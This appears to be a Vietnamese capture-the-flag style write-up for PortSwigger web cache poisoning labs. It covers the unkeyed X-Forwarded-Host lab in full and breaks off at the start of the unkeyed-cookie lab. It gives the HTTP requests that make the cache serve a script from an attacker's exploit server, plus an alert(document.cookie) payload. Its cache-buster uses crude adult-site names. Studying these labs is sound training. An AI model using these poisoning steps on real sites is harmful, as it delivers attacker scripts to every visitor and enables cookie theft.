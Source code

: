 ## Solve Web Cache Poisoning Lab
---
### Lab: Web cache poisoning with an unkeyed header
#### Analysis
- Gửi request đến **Repeater** và gửi lại lần nữa => `X-Cache: hit` => đã được **cache**
- Quan sát ta thấy có **url** được **reflect** ở **response**

```html
<script type="text/javascript" src="//0abe0012046242fe80eb030200020044.web-security-academy.net/resources/js/tracking.js"></script>
```
- Gửi request với **cache-buster** để đảm bảo **cache** không ảnh hưởng (ép server phản hồi mới) => `X-Cache: miss`(lần 1) => `X-Cache: hit`(lần 2)
- Cho thấy cache sử dung **query strings** để làm **cache key**

```http
GET /?xnxx=pornhub HTTP/2
Host: 0abe0012046242fe80eb030200020044.web-security-academy.net
X-Forwarded-Host: exploit-0ac300cc04b14210805702c001750082.exploit-server.net
```
- Gửi **request** với header **X-Forwarded-Host: xnxx.com** => **reflect**

```html
<script type="text/javascript" src="//xnxx.com/resources/js/tracking.js"></script>
```
- Ứng dụng xử lý dựa vào **X-Forwarded-Host** để xác định **request** được đến từ đâu để **reflect** ra **HTML**

#### Exploit
- Thêm **script** sau vào **exploit server**, sửa đường dẫn thành `/resources/js/tracking.js` giống **reflect** của ứng dụng

```js
alert(document.cookie)
```
- Gửi request với **X-Forwarded-Host** là **url** của **exploit server**

```http
GET / HTTP/2
Host: 0abe0012046242fe80eb030200020044.web-security-academy.net
X-Forwarded-Host: exploit-0ac300cc04b14210805702c001750082.exploit-server.net
```
- Gửi cho đến khi thấy **reflect** **url** của **exploit server** hoặc `X-Cache: hit`

```html
<script type="text/javascript" src="//exploit-0ac300cc04b14210805702c001750082.exploit-server.net/resources/js/tracking.js"></script>
```
- **Refresh** trang => **XSS** xuất hiện

### Lab: Web cache poisoning with an unkeyed cookie
#### Analysis
- Truy cập trang 
- **Reload** trang => giá trị của cookie **fehost** được **reflect** vào **HTML**
